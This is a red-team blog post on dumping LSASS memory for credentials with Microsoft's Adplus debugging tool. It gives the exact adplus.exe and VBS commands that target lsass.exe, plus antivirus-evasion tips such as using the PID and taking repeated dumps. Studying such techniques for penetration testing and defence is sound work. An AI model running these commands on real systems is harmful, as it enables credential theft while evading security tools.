```yaml
---
title: Dump LSASS With Adplus Debugging Tool
date: "2021-01-09"
---
```


A continuation of my series into abusing Microsoft's debugging tools for red teams. This time I show how to create a LSASS dump with the Adplus debugging tool<!-- end -->. You may want to check my earlier posts that cover <a href="https://blog.thecybersecuritytutor.com/the-power-of-cdb-debugging-tool/">cdb.exe</a> and <a href="https://blog.thecybersecuritytutor.com/Exeuction-AWL-Bypass-Remote-exe-LOLBin/">remote.exe</a>.

# Introduction

Creating <a href="https://attack.mitre.org/techniques/T1003/">memory dumps (T1003)</a> is a widely used technique by attackers to retrieve credentials on a system. Although there have been improvements by Microsoft to reduce the impact of this technique (e.g. disabling WDigest and introducing Credential Guard), it's still used during penetration tests and red team engagements.

The most common way to create a memory dump is with the Windows Sysinternals tool, Procdump. Any half decent AV will now delete your dump file as soon as it's generated. Adplus has the advantage of not being as widely used and therefore it may slip past some AVs. 

# Adplus

The Windows debugging tools come with <b>adplus.exe</b> and <b>adplus_old.vbs</b>. Both of them can be used to create a memory dump of LSASS.

## Required Privileges

I tested this out with administrator privileges and it wasn't creating the dump file. As it turns out you need SYSTEM privileges to create the dump file. If you have administrator privileges it shouldn't be that hard to find a way to SYSTEM so I'll leave that up to you to figure out.

## Creating a memory dump

Its quite simple to create a memory dump, run the following command.

    #Exe
    adplus.exe -hang -pn lsass.exe -o c:\users\mr.d0x\output\folder -quiet
    
    #Vbs script
    cscript.exe adplus_old.vbs -hang -pn lsass.exe -o c:\users\mr.d0x\output\folder -quiet

The output is a folder that contains the .dmp file.

![Adplus-VBS](./adplus_vbs.png)

## Evasion Tricks

Instead of using ```-pn lsass.exe``` use ```-p <lsass PID>```.

If that doesn't work then use the ```-r``` flag which creates a dump file every X seconds. For some reason that worked for me and the files didn't get deleted. Obviously this is less stealthy as it's writing multiple files to disk.

    #New command
    #Create 10 dumps, 1 every 2 seconds
    adplus.exe -hang -p <PID> -o c:\users\mr.d0x\output\folder -r 10 2 -quiet

## Issues

One issue I ran into after using Adplus is the lsass process remaining suspended. This causes all sorts of problems and will eventually require a system reboot. If anyone knows how to resume the process after Adplus executes please DM me on Twitter. 
